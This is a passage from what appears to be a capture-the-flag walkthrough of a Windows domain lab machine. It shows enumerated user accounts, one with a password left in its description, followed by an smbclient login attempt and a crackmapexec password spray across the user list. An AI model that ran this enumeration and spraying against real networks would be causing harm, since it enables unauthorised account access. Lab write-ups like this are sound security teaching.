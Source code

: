 ```terminal
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo      Name: (null)    Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus       Name: (null)    Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie      Name: (null)    Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki        Name: (null)    Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo        Name: (null)    Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per  Name: (null)    Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan  Name: Ryan Bertrand     Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally        Name: (null)    Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon        Name: (null)    Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve        Name: (null)    Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie       Name: (null)    Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita       Name: (null)    Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf  Name: (null)    Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null)    Desc: (null)
```

We can see in one of the lines the password for user 'Marko' which is `Welcome123!`.

Let's see if the credentials work by listing the smb shares.

```terminal
$ smbclient -L 10.10.10.169 -U marko                                                                                                                 1 ⨯
Enter WORKGROUP\marko's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

That didn't work.

Let's use `crackmapexec` and brute force the usernames with the list we got and see if anyone uses the password `Welcome123!`.

```terminal
$ crackmapexec smb 10.10.10.169 --shares -u users.lst -p 'Welcome123!'                                                                               1 ⨯ 
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:T
rue)                                                                           
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE                             
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE                                    
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE                                       
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE                                 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE                          
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE               
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
```